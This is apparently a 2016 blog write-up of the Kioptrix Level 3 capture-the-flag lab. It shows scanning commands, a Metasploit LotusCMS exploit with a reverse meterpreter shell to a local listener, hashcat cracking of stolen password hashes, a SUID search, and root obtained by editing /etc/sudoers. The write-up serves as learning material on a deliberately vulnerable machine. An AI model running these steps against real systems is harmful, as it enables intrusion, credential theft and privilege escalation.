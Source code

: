 ```yaml
---
layout: post
title: "vulhub-Kioptrix Level 3"
date: 2016-06-09 11:42:38 -0500
comments: true
categories: [vulhub, suid, kioptrix]
---
```


###Tools:

* netdiscover
* Nmap
* Nikto
* Metasploit
* Wfuzz
* Hashcat

<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/kioptrix3/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.184 is the target.


Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.184 -p-`


{% img  /images/blog/vulhub/kioptrix3/Selection_002.png   [title manually exploit [alt text]] %}


Ports 22 and 80 are opening.


Now use Nikto to scan:

`nikto -h 192.168.79.184`

{% img  /images/blog/vulhub/kioptrix3/Selection_003.png   [title manually exploit [alt text]] %}

Nothing excited.

Now lets browser the web page in the target.

{% img  /images/blog/vulhub/kioptrix3/Selection_004.png   [title manually exploit [alt text]] %}


{% img  /images/blog/vulhub/kioptrix3/Selection_005.png   [title manually exploit [alt text]] %}

Find the target may use LotusCMS.

In msfconsole:

`search LotusCMS`

{% img  /images/blog/vulhub/kioptrix3/Selection_006.png   [title manually exploit [alt text]] %}

find one exploit

```
msf > use exploit/multi/http/lcms_php_exec 
msf exploit(lcms_php_exec) > set rhost 192.168.79.184
msf exploit(lcms_php_exec) > set uri 
msf exploit(lcms_php_exec) > set payload php/meterpreter/reverse_tcp
msf exploit(lcms_php_exec) > set lhost 192.168.79.173
exploit
```

{% img  /images/blog/vulhub/kioptrix3/Selection_007.png   [title manually exploit [alt text]] %}

Got the shell, next step is try to get root.

In this step, I tried to enumeration all kinds of shit and use serveral vernerable kernel exploits to get the root but failed. During the emumeration. I found a ffile gconfig.php is interesting. Then I found that:


{% img  /images/blog/vulhub/kioptrix3/Selection_009.png   [title manually exploit [alt text]] %}

maybe the  username/password for ssh, but no. Thats too easy.

So that I go back to use wfuzz the scan the http services.

{% img  /images/blog/vulhub/kioptrix3/Selection_008.png   [title manually exploit [alt text]] %}

Looks like it has phpmyadmin. Try that:

{% img  /images/blog/vulhub/kioptrix3/Selection_010.png   [title manually exploit [alt text]] %}

Log in using the username/password that just found. Successed.

review the content, found this:

{% img  /images/blog/vulhub/kioptrix3/Selection_011.png   [title manually exploit [alt text]] %}


now found two users and the hashed passwords:

{% img  /images/blog/vulhub/kioptrix3/Selection_012.png   [title manually exploit [alt text]] %}

Copy the passwords to a file use hashcat to crack it:


`hashcat hash.txt /user/share/wordlists/rockyou.txt`


get both passwords:


{% img  /images/blog/vulhub/kioptrix3/Selection_013.png   [title manually exploit [alt text]] %}

{% img  /images/blog/vulhub/kioptrix3/Selection_014.png   [title manually exploit [alt text]] %}

ssh to the target, search the SUID binaries:

`find / -perm +6000 -type f -exec ls -ld {} \;`

found an interesting file /uss/local/bin/ht, I googled it and found it is a hex editor.

now try to use it to open /etc/sudoers file, get error message. to fix it:

`export TERM=xterm`

change the loneferret permission:


{% img  /images/blog/vulhub/kioptrix3/Selection_020.png   [title manually exploit [alt text]] %}

get the root


{% img  /images/blog/vulhub/kioptrix3/Selection_021.png   [title manually exploit [alt text]] %}

DONE















